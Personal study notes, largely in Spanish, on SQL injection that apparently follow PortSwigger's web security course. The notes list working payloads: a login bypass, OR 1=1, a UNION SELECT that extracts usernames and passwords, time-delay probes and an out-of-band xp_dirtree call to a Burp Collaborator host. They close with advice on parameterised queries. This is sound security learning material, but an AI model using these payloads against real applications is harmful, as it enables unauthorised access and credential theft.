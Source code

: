 
Significa comentarios y hace que dropee el resto de la query

```
--
```

De esta manera cuando la pagina performance la login query:

```
SELECT * FROM users WHERE
username = 'administrator'--
#Lo siguiente no se ejecuta:
AND password = ''
#Ejemplo:
administrator'--
```

```
SELECT *  Todos
WHERE ? category = "Gifts"
AND released = 1
```

example:  ...bla.com/products?category=Gifts'--

Esto hace que la pagina tire la parte de AND released=1 y te muestre todos los productos incluso los que no han sido released (released=0):

```
...bla.com/products?category=Gifts'+OR+1=1--
```

Ataque que muestra todos los nombre de usuario y productos:

```
Gifts' UNION SELECT username, password FROM users--
```

## Obtener informacion:

Version:
```
SELECT * FROM v$version
```

Dates bases exist:
```
SELECT * FROM information_schema.tables
```

## Blind SQL inyections

Change logic of the query:
	 Depending of the TRUTH of a single conditon ---> Triggers responses  
	 Including new boolean conditions
	 Triggering a error dividing by 0
	 Conditionally triggers a time delay during the processing of a query ---> Inforce the True of the condition base on the time of the application response
	 Triger an out-of-band network interaction ----> Poweful

## Detecting Vulneralibities

On burp to look for differences on the aplication response:

introducing to look for errors and anomalyes:

```
'
```

Introducing different SQL syntax and look for sistematic differences:

```
ASCII(97)
```

Submit boolean conditions:

```
' OR 1=1--
```

Submit payloads design to try time delays 

```
': waitfor delay ('0:0:20')--
```

Submit payloads desing to trigger outband network interaction:

```
exec master. .xp_dirtree
'//0efdymgwlo5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'
```


## Where to inject in the query

Most common locations:
	UPDATE statements or where clause 
	INSERT statements
	SELECT statements within the table of column name
	SELECT statements within ORDER BY clause 

## Second-order SQL injection 

First order ---> Arises where the application takes the user imput from an HTTP request and in the course of processing the request incorporates the input into an SQL query in a unsafe way.

Second order ---> Also know as stored SQL injection, the application takes user input from an HTTP request and stores it for future use, this is usually done by placing the input into a database, later when handling a different HTTP request the aplication retrieves the store data and incorparates into a SQL query in a unsafe way

## Data base specific factors
	Syntax for string concatenation 
	Comments
	Batched (or stacked) queries 
	Platform-specific APIs
	Error Messages

## Preventing SQL injection

Using parameterised queries instead of string cocatenation within the query, can be use for any situation where untrusted input appears as data within the query:
	WHERE	
	INSERT
	UPDATE
	Table and column names
	ORDER BY clause

Application funtionality that places untrusted data into those parts of the query we'll need to take a different aproach:
	Whitelisting Permitted input values or using different logic to deliver the required behavior

The string using the query must be always hard-coded constant and must never contain any variable data from any origin 

## SQL injection examples

-   [[Retrieving hidden data]], where you can modify a SQL query to return additional results.
-   [[Subverting application logic]], where you can change a query to interfere with the application's logic.
-   [[SQL UNION attacks]], where you can retrieve data from different database tables.
-   [Examining the database](https://portswigger.net/web-security/sql-injection/examining-the-database), where you can extract information about the version and structure of the database.
-   [Blind SQL injection](https://portswigger.net/web-security/sql-injection/blind), where the results of a query you control are not returned in the application's responses.

